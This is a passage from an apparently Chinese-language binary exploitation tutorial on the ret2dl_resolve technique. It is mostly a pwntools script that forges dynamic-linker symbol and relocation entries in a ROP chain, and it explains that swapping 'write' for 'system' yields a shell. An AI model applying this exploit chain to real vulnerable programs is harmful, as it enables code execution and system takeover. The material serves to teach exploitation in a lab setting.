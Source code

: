 ```python
align = 0x10 - ((fake_dynsym_addr - dynsym) & 0xf)  #地址对齐
fake_sym_addr = align + base_stage + 32 #假的构造的dynsym的地址
index_dynsym = (fake_dynsym_addr - dynsym) / 0x10 #得到write的dynsym索引号
st_name = fake_dynsym_addr + 0x10 - dynstr# 假的st_name所在地址
fake_dynsym = flat([st_name, 0, 0, 0x12])# 假的dynsym
index_offset = base_stage + 24 - rel_plt #得到write的dynsym索引号
write_got = elf.got['write']#计算r_offset
r_info = (index_dynsym << 8) | 0x7 #计算r_info
fake_write_reloc = flat([write_got, r_info])#假的reloc
rop.raw(plt0)
rop.raw(index_offset)#转到dlresolve执行
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))#写入bin/sh
rop.raw(fake_write_reloc)   #写入reloc
rop.raw('a' * align)  
rop.raw(fake_dynsym)  #写入dynsym
rop.raw('write\x00')  #写入st_name字符 可以换成system函数：rop.raw('system\x00')
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))#填充到100字符
r.sendline(rop.chain())#第2段rop
r.interactive()
```

### **2.2.5 system**

由于dl_resolve 最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。因此我们只需要将原先的 write 字符串修改为 system 字符串，同时修改 write 的参数为 system 的参数即可获取 shell。即rop.raw('system\x00')：

成功获取shell：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/dend.png?x-oss-process=style/watermark)
